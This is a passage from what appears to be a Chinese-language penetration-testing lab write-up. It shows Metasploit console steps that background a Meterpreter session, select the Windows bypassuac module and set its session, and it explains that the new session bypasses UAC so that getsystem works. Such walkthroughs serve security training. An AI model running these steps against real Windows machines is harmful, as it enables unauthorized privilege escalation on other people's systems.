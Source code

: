 ```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > search bypassuac

Matching Modules
================
Name                                        Disclosure Date             Rank                    Description
----                                        ---------------             ----                    -----------
exploit/windows/local/bypassuac             2010-12-31                  excellent               Windows Escalate UAC Protection Bypass
exploit/windows/local/bypassuac_injections  2010-12-31                  exeellent               Windows Escalate UAC Protection Bypass(In Memory Injection)

msf exploit(handler) > use exploit/windows/local/bypassuac
```

这个模块只接受一个参数，即您要绕过 UAC 的 Meterpreter 会话。

```
msf exploit(bypassuac) > show options

Module options (exploit/windows/local/bypassuac):

Name        Current Setting     Required    Description
----        ---------------     --------    -----------
SESSION                         yes         The session to run this module on.
TECHNIQUE   EXE                 yes         Technique to use if UAC is turned off (accepted: PSH, EXE)

msf exploit(bypassuac) > set session 1
```

启动漏洞利用后，您将获得一个新的 Meterpreter 会话。

![exploit-bypass-uac.png](/img/in-post/ine/exploit-bypass-uac.png)

新会话禁用了 UAC 策略，因此 `getsystem` 命令有效！
